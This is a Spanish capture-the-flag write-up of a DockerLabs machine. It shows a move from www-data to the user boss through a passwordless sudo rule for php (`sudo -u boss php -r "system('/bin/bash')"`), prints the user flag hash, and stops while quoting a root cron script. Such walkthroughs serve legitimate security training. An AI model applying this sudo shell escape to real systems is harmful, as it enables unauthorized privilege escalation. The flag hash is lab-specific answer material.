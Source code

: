 Por lo que vemos cuando nos conectemos con el usuario `boss` puede ser que haya algo que ejecute este script y nos eche de la sesion, por lo que podemos intuir que puede haber algun `crontab`.

Si nos vamos a `/var/spool/cron` y listamos veremos lo siguiente:

```
dr-xrwx--T 1 boss crontab 4096 Jan 16 11:58 crontabs
```

Vemos que el usuario `boss` puede acceder a este directorio y dentro puede haber algo que nos interese.

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on dockerlabs:
    (boss) NOPASSWD: /bin/php
```

Vemos que podemos ejecutar el binario `php` como el usuario `boss` por lo que haremos lo siguiente:

```shell
CMD="/bin/bash"
sudo -u boss php -r "system('$CMD');"
```

Y con esto seremos el usuario `boss`, por lo que leeremos la flag del usuario.

> user.txt

```
93a85c1e99d62afe15c179d4fd005f40
```

## Escalate Privileges

Si nos vamos donde dijimos antes, veremos que nos deja meternos en el directorio, cosa que es poco usual:

```shell
cd /var/spool/cron/crontabs
```

Si listamos veremos lo siguiente:

```
-rwxr-xr-x 1 root crontab 1197 Jan 16 11:58 root.sh
```

Vemos que podemos leer el archivo `root`:

```
#!/bin/bash

# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.JicO9c/crontab installed on Thu Jan 16 11:58:58 2025)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
```